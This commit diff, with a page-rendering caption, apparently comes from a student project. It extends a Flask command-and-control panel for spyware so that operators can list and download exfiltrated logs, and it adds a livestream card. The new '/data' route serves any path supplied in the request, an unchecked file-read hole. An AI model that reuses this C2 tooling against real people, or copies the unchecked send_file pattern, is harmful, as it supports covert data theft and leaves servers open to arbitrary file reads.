

Before and after one commit to alloygoh/ICT2207-C2, a Flask app: template templates/client.html in a window 1280 px wide. Shown: the whole page at 85% size. Before the commit the page ends 800 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
feat: add downloading of exfiltrated log files

```diff
--- a/app.py
+++ b/app.py
@@ -28,8 +28,10 @@ class Client:
         self.key: bytes = data[5:21]
         self.current_task = None
 
+        # runtime temp data retrieved from the client
         self.file_listing = None
         self.file_listing_directory = None
+        self.stream_on = False
 
     def complete_task(self, data):
 
@@ -128,6 +130,7 @@ def file_listing_callback(client_id, data):
 
     return 1
 
+
 def file_upload_callback(client_id, data, file_path):
     file_dir, file_name = file_path.split(',')
     path = os.path.join(EXFIL_DATA_PATH, client_id, file_dir)
@@ -138,6 +141,7 @@ def file_upload_callback(client_id, data, file_path):
         f.write(data)
 
     return 1
+
 
 # Placeholder for supported commands, to be updated when Spyware features fully implemented
 file_listing_commands = [
@@ -157,7 +161,9 @@ sidebar_commands = [
 sidebar_commands = {
     command.command_code: command for command in sidebar_commands}
 
-get_file_command = Command(0x0, "Download File", callback_function=file_upload_callback)
+get_file_command = Command(
+    0x0, "Download File", callback_function=file_upload_callback)
+
 
 def add_new_client(client_id, data, addr):
     print_debug(f'new client id: {client_id}')
@@ -169,6 +175,22 @@ def add_new_client(client_id, data, addr):
     clients[client_id] = new_client
 
     return new_client
+
+
+def generate_database_listing(client_id):
+    client_data_path = os.path.join(EXFIL_DATA_PATH, client_id)
+    database_listing = []
+    if os.path.exists(client_data_path):
+        for subdir in os.listdir(client_data_path):
+            subdir_full = os.path.join(client_data_path, subdir)
+            for log in os.listdir(subdir_full):
+                log_full_path = os.path.join(subdir_full, log)
+                log_full_path = os.path.abspath(log_full_path)
+                log_stats = os.stat(log_full_path)
+                entry = (subdir, log, log_stats.st_size, log_full_path)
+                database_listing.append(entry)
+
+        return database_listing
 
 # tentatively receive data from exfil
 
@@ -229,6 +251,11 @@ def control_centre():
     return render_template('index.html', clients=clients.items(), task_count=task_count)
 
 
+@app.route('/data', methods=['GET'])
+def download_log():
+    log_path = request.args.get('log')
+    return send_file(log_path)
+
 # used to control individual clients
 @app.route('/client', methods=['GET'])
 def control_client():
@@ -262,4 +289,6 @@ def control_client():
         task = Task(command, args=command_args)
         client.current_task = task
 
-    return render_template('client.html', client_id=client_id, ip_address = client.addr, file_listing_commands=file_listing_commands, sidebar_commands=sidebar_commands.items(), file_listing=client.file_listing, file_listing_directory = client.file_listing_directory)
+    database_listing = generate_database_listing(client_id)
+
+    return render_template('client.html', client_id=client_id, ip_address=client.addr, file_listing_commands=file_listing_commands, sidebar_commands=sidebar_commands.items(), file_listing=client.file_listing, file_listing_directory=client.file_listing_directory, database_listing=database_listing)
--- a/templates/client.html
+++ b/templates/client.html
@@ -8,8 +8,10 @@
     <meta name="description" content="" />
     <meta name="author" content="" />
     <title>{{ client_id }}</title>
-    <link href="https://cdn.jsdelivr.net/npm/simple-datatables@latest/dist/style.css" rel="stylesheet" />
     <link href="{{ url_for('static', filename='styles.css') }}" rel="stylesheet" />
+    <link href="https://cdn.datatables.net/1.13.2/css/jquery.dataTables.min.css" rel="stylesheet" />
+    <script src="https://code.jquery.com/jquery-3.5.1.js" crossorigin="anonymous"></script>
+    <script src="https://cdn.datatables.net/1.13.2/js/jquery.dataTables.min.js" crossorigin="anonymous"></script>
     <script src="https://use.fontawesome.com/releases/v6.1.0/js/all.js" crossorigin="anonymous"></script>
 </head>
 
@@ -34,8 +36,7 @@
                         <div class="sb-sidenav-menu-heading">Discovery</div>
 
                         {% for command_code, command in sidebar_commands %}
-                        <a class="nav-link"
-                            href="client?id={{ client_id }}&cmd={{ command_code }}">
+                        <a class="nav-link" href="client?id={{ client_id }}&cmd={{ command_code }}">
                             {{ command.label }}
                         </a>
                         {% endfor %}
@@ -48,8 +49,19 @@
             <main>
                 <div class="container-fluid px-4">
                     <h1 class="mt-4">{{ client_id }} (IP: {{ ip_address }})</h1>
-                    <div class="col-xl-12">
-                        <div class="card mb-4">
+                    <div class="row">
+                        <div class="col-xl-4">
+                            <div class="card mb-4" style="height:1080px;">
+                                <div class="card-header">
+                                    <i class="fas fa-camera me-1"></i>
+                                    Livestream
+                                </div>
+                                <div class="card-body">
+                                </div>
+                            </div>
+                        </div>
+                        <div class="col-xl-8">
+                            <div class="card mb-4" style="height:525px;">
                                 <div class="card-header">
                                     <i class="fas fa-file me-1"></i>
                                     Files: {{ file_listing_directory }}
@@ -57,17 +69,60 @@
                                 <div class="card-body">
                                     {% if file_listing %}
                                     {% for file in file_listing %}
-                                        <a href="client?id={{ client_id }}&cmd=0&args={{ file_listing_directory }},{{ file }}">{{ file }}</a>
+                                    <a
+                                        href="client?id={{ client_id }}&cmd=0&args={{ file_listing_directory }},{{ file }}">{{
+                                        file }}</a>
                                     <br>
                                     {% endfor %}
                                     {% else %}
-                                    Looks like there are no files to display, use the 'File System' commands to retrieve information from host
+                                    Looks like there are no files to display, use the 'File System' commands to retrieve
+                                    information from host
+                                    {% endif %}
+                                </div>
+                            </div>
+                            <div class="card mb-4" style="height:525px;">
+                                <div class="card-header">
+                                    <i class="fas fa-database me-1"></i>
+                                    Database
+                                </div>
+                                <div class="card-body">
+                                    {% if database_listing %}
+                                    <table id="database" class="display" style="width:100%;">
+                                        <thead>
+                                            <tr>
+                                                <th>Log Type</th>
+                                                <th>Timestamp</th>
+                                                <th>Size</th>
+                                                <th></th>
+                                            </tr>
+                                        </thead>
+                                        <tbody>
+                                            {% for entry in database_listing %}
+                                            <tr>
+                                                <td>{{ entry[0] }}</td>
+                                                <td>{{ entry[1] }}</td>
+                                                <td>{{ entry[2] }}</td>
+                                                <td><a type="button" class="btn btn-primary"
+                                                        href="data?log={{ entry[3] }}"><i class="fa fa-download"></i></a></td>
+                                            </tr>
+                                            {% endfor %}
+                                        </tbody>
+                                    </table>
+
+                                    <script>
+                                        $(document).ready(function () {
+                                            $('#database').DataTable();
+                                        });
+                                    </script>
+
+                                    {% else %}
+                                    No data exfiltrated yet...
                                     {% endif %}
                                 </div>
                             </div>
                         </div>
                     </div>
-
+                </div>
             </main>
             <footer class="py-4 bg-light mt-auto">
                 <div class="container-fluid px-4">
--- a/templates/index.html
+++ b/templates/index.html
@@ -8,7 +8,6 @@
     <meta name="description" content="" />
     <meta name="author" content="" />
     <title>Control Centre</title>
-    <link href="https://cdn.jsdelivr.net/npm/simple-datatables@latest/dist/style.css" rel="stylesheet" />
     <link href="{{ url_for('static', filename='styles.css') }}" rel="stylesheet" />
     <script src="https://use.fontawesome.com/releases/v6.1.0/js/all.js" crossorigin="anonymous"></script>
 </head>
```
Lines whose indentation alone changed are shown as unchanged.
